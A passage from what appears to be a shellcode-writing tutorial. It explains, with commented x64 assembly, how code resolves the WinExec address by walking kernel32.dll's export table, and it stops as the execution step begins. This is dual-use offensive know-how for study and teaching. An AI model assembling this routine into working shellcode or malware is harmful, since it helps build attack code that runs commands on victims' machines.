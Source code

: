 Once we find the right function name, our counter (`RAX` register) holds its index. Using this index, we can refer to an item in the `AddressOfNameOrdinals` array. Using the Ordinal Number extracted from this array, we finally refer to the item in the array `AddressOfFunctions`. Here we obtain the RVA of the `WinExec` function, calculate the VA and return the address in the `RAX` register. **And this is it! We have the address of the function we are looking for.**

```nasm
get_winapi_func:
    ; Requirements (preserved):
    ;   R8  = &kernel32.dll
    ;   R10 = &AddressOfFunctions (ExportTable)
    ;   R11 = &AddressOfNames (ExportTable)
    ;   R12 = &AddressOfNameOrdinals (ExportTable)
    ; Parameters (preserved):
    ;   RBX = (char*) function_name
    ;   RCX = (int)   length of function_name string
    ; Returns:
    ;   RAX = &function
    ;
    ; IMPORTANT: This function doesn't handle "not found" case! 
    ;            Infinite loop and access violation is possible.

    xor rax, rax        ; RAX = counter = 0
    push rcx            ; STACK + RCX (8) = preserve length of function_name string

    ; Loop through AddressOfNames array:
    ;   array item = function name RVA (4 bytes)
    loop:
        xor rdi, rdi            ; RDI = 0
        mov rcx, [rsp]          ; RCX = length of function_name string
        mov rsi, rbx            ; RSI = (char*) function_name 

        mov edi, [r11+rax*4]    ; RDI = function name RVA 
        add rdi, r8             ; RDI = &FunctionName = function name RVA + &kernel32.dll
        repe cmpsb              ; Compare byte *RDI (array item str) and *RSI (param function name)

        je resolve_func_addr    ; Jump if exported function name == param function name

        inc rax                 ; RAX = counter + 1
        jmp short loop

    resolve_func_addr:
        pop rcx                 ; STACK - RCX (8) = remove length of function_name string
        mov ax, [r12+rax*2]     ; RAX = OrdinalNumber = &AddressOfNameOrdinals + (counter * 2) 
        mov eax, [r10+rax*4]    ; RAX = function RVA = &AddressOfFunctions + (OrdinalNumber * 4)
        add rax, r8             ; RAX = &function = function RVA + &kernel32.dll
        ret     
```

## Execute WinExec function

Here's what the definition of the [WinExec](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec) function looks like (below). And we have a pointer to this function. Cool, isn't it?
